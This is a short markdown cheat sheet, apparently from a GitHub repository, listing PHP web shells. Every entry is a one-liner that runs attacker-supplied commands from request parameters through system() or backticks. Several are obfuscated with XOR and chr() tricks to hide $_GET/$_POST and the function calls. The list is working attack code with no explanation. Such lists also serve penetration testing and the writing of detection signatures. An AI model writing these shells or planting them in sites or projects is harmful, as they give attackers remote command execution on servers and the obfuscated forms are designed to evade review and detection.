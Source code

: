 # Web shells

## PHP
```php
<?php system($_REQUEST["cmd"]);?>
```
```php
<?=`$_GET[0]`?>
```
```php
<?=`$_POST[0]`?>
```
```php
<?=`{$_REQUEST['_']}`?>
```
```php
<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>
```
```php
<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?> <?=${'_'.$_}["_"](${'_'.$_}["__"]);?>
```
```php
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]($_[2])); ?>
```
```php
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]($_[2])); ?>
```